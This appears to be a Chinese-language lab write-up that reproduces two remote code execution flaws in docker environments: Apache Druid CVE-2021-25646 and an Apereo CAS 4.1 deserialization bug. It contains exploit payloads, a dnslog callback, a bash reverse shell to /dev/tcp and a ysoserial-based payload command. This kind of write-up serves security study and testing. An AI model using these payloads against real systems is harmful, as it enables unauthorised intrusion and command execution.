Apache Druid 代码执行漏洞（CVE-2021-25646）
简介
介绍
Apache Druid：Apache Druid是一个专为大数据集的快速切片分析（OLAP查询）而设计的实时分析数据库。Druid作为数据库，最常用于支持以下用例：实时摄取、快速查询和高运行时长。例如，Druid一般用于支持分析型应用程序的GUI，或是需要快速聚合的高并发API后台。Druid最适合用于面向事件的数据。
Druid常见的应用领域包括：
- 点击流分析（Web和移动分析）
- 网络遥测分析（网络性能监视器）
- 服务器指标存储
- 供应链分析（制造指标）
- 应用程序性能指标
- 数字市场营销/广告分析
- 商业智能/OLAP
影响版本
Druid 0.20.0及以前的版本
漏洞成因
Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。
漏洞环境
执行如下命令启动一个Apache Druid 0.20.0服务器：
1 | docker compose up -d |

服务启动后，访问http://your-ip:8888即可查看到Apache Druid主页。

漏洞复现
1.poc远程命令执行
直接发送如下请求即可执行其中的JavaScript代码：
1 | POST /druid/indexer/v1/sampler HTTP/1.1 |
可见，id命令已被成功执行：

同样修改id为whoami

2.dnslog
点击左上方Load data -> Local disk:


右侧表单填入:
Base directory: quickstart/tutorial/
File filter: wikiticker-2015-09-12-sampled.json.gz

接下来一路点击next，直到下一步是Filter时，抓取数据包：


此时替换数据包中POST的data数据，原始数据：
1 | {"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[]}}},"samplerConfig":{"numRows":500,"timeoutMs":15000,"cacheKey":"4ddb48fdbad7406084e37a1b80100214"}} |
替换后的数据：
1 | {"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript", |
其中，执行命令的代码为：
1 | "function":"function(value){return java.lang.Runtime.getRuntime().exec('ping 8pn3th.dnslog.cn -c 1')}" |


3.反弹shell
1 | exec('/bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.86.139/7777 0>&1') |


Apereo CAS 4.1 反序列化命令执行漏洞
简介
介绍
Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。
影响版本
1 | Apereo CAS <= 4.1.7 |
漏洞成因
其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。
漏洞环境
执行如下命令启动一个Apereo CAS 4.1.5：
1 | docker compose up -d |

环境启动后，访问http://your-ip:8080/cas/login即可查看到登录页面。

漏洞复现
漏洞原理实际上是Webflow中使用了默认密钥changeit：
1 | public class EncryptedTranscoder implements Transcoder { |
使用Apereo-CAS-Attack来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：
1 | java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success" |

然后登录CAS并抓包，将Body中的execution值替换成上面生成的Payload发送：

登录Apereo CAS，可见touch /tmp/success已成功执行：
